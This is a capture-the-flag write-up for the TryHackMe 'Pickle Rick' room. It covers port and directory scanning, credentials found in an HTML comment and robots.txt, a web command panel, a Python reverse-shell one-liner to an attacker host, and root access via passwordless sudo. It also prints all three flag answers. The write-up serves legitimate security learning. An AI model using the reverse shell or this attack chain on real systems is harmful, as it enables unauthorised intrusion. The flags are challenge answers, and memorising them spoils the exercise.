

# Pickle Rick - CTF 🥒🚩

### Introduction
In the first place I did the recon and info gathering, after that I explore the ports.
 
 
Tools used:
<ul>
    <li>nmap
    <li>dirb
    <li>curl
    <li>ssh
    <li>nc
</ul>

### Recon, Info_Gath & Scanning 🕵
First of all, turned on the tryhackme vpn so I can do the challenge. 
The first tool I used was `nmap`👁️ to see the open ports that the target might have had.

    

     
    the command: 
    <h3 align=center><code>nmap -Pn -sV &lt;target&gt; </code></h3>

 
means the following sets: 
<ul>
<li>-Pn : Treat the host as active  
<li>-sV : See the versions of the services 
 </ul>
 
Then I just write in the Notpad the info, for example:

<pre>
    IP:10.130.176.224
    
    nmap:
        service : port - version
        ssh : 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
        http : 80 - Apache httpd 2.4.41 ((Ubuntu))

    OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
 
I try to connect to the ssh, just to saw if I could, but I couldn't . 

Then I see the http port and investigate the page with curl. I end up comming across a commentary the rick let: 
<h4 align=center>
    <code>&lt;!--  Note to self, remember username!  Username: R1ckRul3s --&gt;</code>
</h4>
 
and wrote it down in the notepad too. 
<pre>
    main page :
        - found commentary _ important:
            Username: R1ckRul3s
</pre>
 

Now I use dirb so I can see the paths the page has. 
In this case I Don't specify the wordlist because the common one is sufficient.  

    

 
It ended up giving me some interesting paths, and as you know, also noted it in the notepad. 

<pre>
    dirb:
        + http://10.130.176.224/assets/ - non interesting
        + http://10.130.176.224/robots.txt - interesting
        + http://10.130.176.224/index.html - interesting
        + http://10.130.176.224/server-status - non interesting
        + http://10.130.176.224/login.php - interesting
</pre>
 

### Gaining Access 🗝️

 
I started opening and seeing every URL, the assets wasn't interesting, the robots.txt had something writed: `Wubbalubbadubdub`, also noted it, index.html was the main page, server-status was forbidden and the most interesting.. the login.php, an as the path say login page.
  I tried to use a sqli but it didn't work.  

    

 
I remembered of the notes, Username: <code>R1ckRul3s</code> and tried the <code>Wubbalubbadubdub</code> as the password, and well it worked. 
Now I had a command panel, I used ls to see the files  

    

 
 

After seeing the files I tried to use `cat` to see the "Sup3rS3cretPickl3Ingred.txt" and the "clue.txt" but i couldn't, so i search other ways to see and txt file and tried: `grep . <file> ` , it basically search everything in the file and print it .  

Well, I did it in the "Sup3rS3cretPickl3Ingred.txt" and it gave me the first flag `mr. meeseek hair`. 

Also did it in the "clue.txt" and it showed me `Look around the file system for the other ingredient.`.  

But I really didn't want to use the command panel page so I did an reverse shell with Python, so I went to: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Started `nc -lvnp` in my device in the port 4444 and did the followed command/script python in the command pannel: 

<h4 align=center>
    <pre>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<main_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>
</h3>
 

### Privilege Escalation 📤
        
I use `ls /home` to see any interesting directories and find the "rick" directory, I enter it and do a `cat "second ingredients"`  
With that I get the second flag: `1 jerry tear`  
 
Now I try to enter the /root directory, but I can't, so I run `sudo -l` to see what user has privileges and if it needs a password and it shows: 

    

 

And , as we can see the user www-data (me, if I do a `whoami` it shows "www-data") can run any command and be the root without a password, so I start a root shell using: 
<h4 align=center>
    <pre>sudo -i</pre>
</h3>
 

And I was root, already in the root directory I used `ls` and saw the "3rd.txt" and do a cat to it, with that I get the third flag: `3rd ingredients: fleeb juice`  
 
That's the final of the "Pickle Rick - CTF", in the end the notepad looked like this: 
<pre>
    _____ PICKLE RICK - CTF _____
    
    ------------------------------------------
    IP: 10.130.176.224
    
    nmap:
        service : port - version
        ssh : 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
        http : 80 - Apache httpd 2.4.41 ((Ubuntu))

    OS: Linux; CPE: cpe:/o:linux:linux_kernel

    ------------------------------------------
    
    main page :
        - found commentary _ important:
            Username: R1ckRul3s
    
    ------------------------------------------
    
    dirb:
        + http://10.130.176.224/assets/ - non interesting
        + http://10.130.176.224/robots.txt - interesting
        + http://10.130.176.224/index.html - interesting
        + http://10.130.176.224/server-status - non interesting
        + http://10.130.176.224/login.php - interesting

    ------------------------------------------

    1ºst Flag: mr. meeseek hair
    2ºnd Flag: 1 jerry tear
    3ºrd flag: fleeb juice
    ------------------------------------------
    
</pre>

## What I Learned 🎓
With this CTF I understood better and made myself to look to the html code everytime (in this case with curl) and in the robots.txt path, because people can let important things there as a commentary for example.  
I also understood better that the path name can be "interesting" but it doesn't always mean it is interesting,    
and finally as much stupid as it looks I understood better how the `sudo -l`  behaved, because I knew it in the theory but in practice I hasn't so sure, and this CTF made me understood that.

Concepts This CTF helped

<ul>
    <li> Observation 🧐
    <li> Mentality 🧠
    <li> Commands ⚙️
</ul>

<i>- Thank You for Reading this Report I made, have a good life. 🫡</i>

